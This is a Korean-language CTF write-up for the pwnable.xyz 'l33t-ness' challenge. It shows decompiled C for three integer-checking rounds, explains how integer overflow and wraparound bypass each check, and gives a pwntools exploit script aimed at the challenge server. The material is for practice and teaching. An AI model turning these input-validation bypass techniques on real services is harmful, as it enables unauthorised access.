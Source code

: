 ```yaml
---
title: "[pwnable.xyz]l33t-ness"
date: 2020-1-25
ctf: Pwnable.xyz
layout: post
---
```


3단계로 걸쳐서 스테이지 통과하면 플래그를 내뿜는 바이너리다.

round1에서는 x,y입력받아서 atoi로 정수로 변환해주고 x,y가 각각 1336보다 작아야하는데 x-y를 1337로 만들라고한다.

그래서 v1에는 1336을 넣고 v2에는 -1을 넣어주면 되는데 strchr로 -가 포함되는지 검사하는데 마침 int형이라 -(-1) 만들어주면 된다. 아니면 v1을 다른 방법으로는 x에 0을 넣고 y에는 2^32+(2^32-1337) 이렇게 넣어주면 -1337이 되서 1337로 통과할 수 있다.

```c
_BOOL8 round_1()
{
  _BOOL8 result; // rax
  int v1; // [rsp+8h] [rbp-38h]
  int v2; // [rsp+Ch] [rbp-34h]
  char s; // [rsp+10h] [rbp-30h]
  __int64 v4; // [rsp+20h] [rbp-20h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("=== 1eet ===");
  memset(&s, 0, 0x20uLL);
  printf("x: ", 0LL);
  read(0, &s, 16uLL);
  printf("y: ", &s);
  read(0, &v4, 16uLL);
  if ( strchr(&s, '-') || strchr(&v4, '-') )
    return 0LL;
  v1 = atoi(&s);
  v2 = atoi(&v4);
  if ( v1 <= 1336 && v2 <= 1336 )
    result = v1 - v2 == 1337;
  else
    result = 0LL;
  return result;
}
```

round2 푸는데 좀 더 오래걸려있다. v1은 1초과여야하고 v2는 1337초과여야한다. 근데 곱을 1337로 만들어야한다.

우선 v2가 1337 이상이여야한다. 그러면 2^32+1337으로 값을 맞춰주고 나누어 떨어지는 값을 곱하면 1337이 되는 원리를 사용하면 된다. 2^32+1337는 3으로 나누어떨어진다. 그러면 v1에 3을 넣고 v2에는 (2^32+1337)/3을 넣어서 곱하면 1337이 된다. 그 외에도 9로도 나누어떨어진다. 그러면 v1에는 9를 넣고 v2에는  (2^32+1337)/9를 넣어서 풀 수도 있다.

```c
_BOOL8 round_2()
{
  int v1; // [rsp+0h] [rbp-10h]
  int v2; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("=== t00leet ===");
  v1 = 0;
  v2 = 0;
  _isoc99_scanf("%d %d", &v1, &v2);
  return v1 > 1 && v2 > 1337 && v1 * v2 == 1337;
}
```

round3는 너무 쉬워서 딱히 할말 없다. 다 곱한값이랑 다 더한 값이랑 같으면 된다. 그냥 0으로 다 싹 밀어주면 통과할 수 있다.

```c
_BOOL8 round_3()
{
  signed int i; // [rsp+0h] [rbp-30h]
  __int64 v2; // [rsp+10h] [rbp-20h]
  __int64 v3; // [rsp+18h] [rbp-18h]
  int v4; // [rsp+20h] [rbp-10h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("=== 3leet ===");
  v2 = 0LL;
  v3 = 0LL;
  v4 = 0;
  _isoc99_scanf("%d %d %d %d %d", &v2, &v2 + 4);
  for ( i = 1; i <= 4; ++i )
  {
    if ( *(&v2 + i) < *(&v2 + i - 1) )
      return 0LL;
  }
  return HIDWORD(v3) + v3 + HIDWORD(v2) + v2 + v4 == HIDWORD(v3) * v3 * HIDWORD(v2) * v2 * v4;
}
```

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30008)

#p.sendlineafter('x:','0') # 0
#p.sendlineafter('y:',str(0xffffffff+(0xffffffff-1335))) # 8589933255
p.sendlineafter('x:','1336') 
p.sendlineafter('y:',str(2**32-1))
p.sendlineafter('=== t00leet ===\n','3 ' + str((2**32+1337)/3))
#p.sendlineafter('=== t00leet ===\n','9 ' + str((2**32+1337)/9))
p.sendlineafter('=== 3leet ===\n','0 0 0 0 0')

# 0 8589933255
# 3 1431656211
# 0 0 0 0 0

p.interactive()
```


